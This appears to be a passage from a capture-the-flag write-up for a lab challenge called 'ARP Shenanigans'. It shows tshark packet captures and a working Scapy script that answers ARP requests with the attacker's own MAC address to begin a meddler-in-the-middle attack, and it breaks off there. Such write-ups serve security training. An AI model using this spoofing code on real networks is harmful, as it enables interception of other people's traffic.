 Answer: JackFrostWasHere

### Objective 9: ARP Shenanigans

This challenge tasks us with performing a full Meddler-in-the-Middle attack starting with ARP spoofing and going all the way to getting code execution. We start by looking at the example pcap files provided and what traffic we see on the network.

```bash
guest@6ecdf423b789:~$ tshark -nnr pcaps/arp.pcap 
    1   0.000000 cc:01:10:dc:00:00 → ff:ff:ff:ff:ff:ff ARP 60 Who has 10.10.10.1? Tell 10.10.10.2
    2   0.031000 cc:00:10:dc:00:00 → cc:01:10:dc:00:00 ARP 60 10.10.10.1 is at cc:00:10:dc:00:00
guest@6ecdf423b789:~$ tshark -nnr pcaps/dns.pcap 
    1   0.000000 192.168.170.8 → 192.168.170.20 DNS 74 Standard query 0x75c0 A www.netbsd.org
    2   0.048911 192.168.170.20 → 192.168.170.8 DNS 90 Standard query response 0x75c0 A www.netbsd.org A 204.152.190.12
guest@116b9ef8657a:~$ tshark
Capturing on 'eth0'
    1 0.000000000 4c:24:57:ab:ed:84 → Broadcast    ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
    2 1.031960086 4c:24:57:ab:ed:84 → Broadcast    ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
    3 2.063982776 4c:24:57:ab:ed:84 → Broadcast    ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
    4 3.095992011 4c:24:57:ab:ed:84 → Broadcast    ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
    5 4.128015395 4c:24:57:ab:ed:84 → Broadcast    ARP 42 Who has 10.6.6.53? Tell 10.6.6.35
```

We see that the host with MAC address 4c:24:57:ab:ed:84 and IP address 10.6.6.35 is looking for IP address 10.6.6.53. Using the provided script as a starting point, we create the following script to use Scapy to respond to the ARP request and claiming that the IP address belongs to our host.

```python
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 ip
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our eth0 mac address
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])

def handle_arp_packets(packet):
    # if arp request, then we need to fill this out to send back our mac as the response
    if ARP in packet and packet[ARP].op == 1:
        ether_resp = Ether(dst=packet[Ether].src, type=0x806, src=macaddr)

        arp_response = ARP(pdst=packet[ARP].psrc)
        arp_response.op = 2
        arp_response.plen = 4
        arp_response.hwlen = 6
        arp_response.ptype = 0x0800
        arp_response.hwtype = 1

        arp_response.hwsrc = macaddr
        arp_response.psrc = packet[ARP].pdst
        arp_response.hwdst = packet[Ether].src
        arp_response.pdst = packet[ARP].psrc

        response = ether_resp/arp_response

        sendp(response, iface="eth0")

def main():
    # We only want arp requests
    berkeley_packet_filter = "(arp[6:2] = 1)"
    # sniffing for one packet that will be sent to a function, while storing none
    sniff(filter=berkeley_packet_filter, prn=handle_arp_packets, store=0, count=1)
```
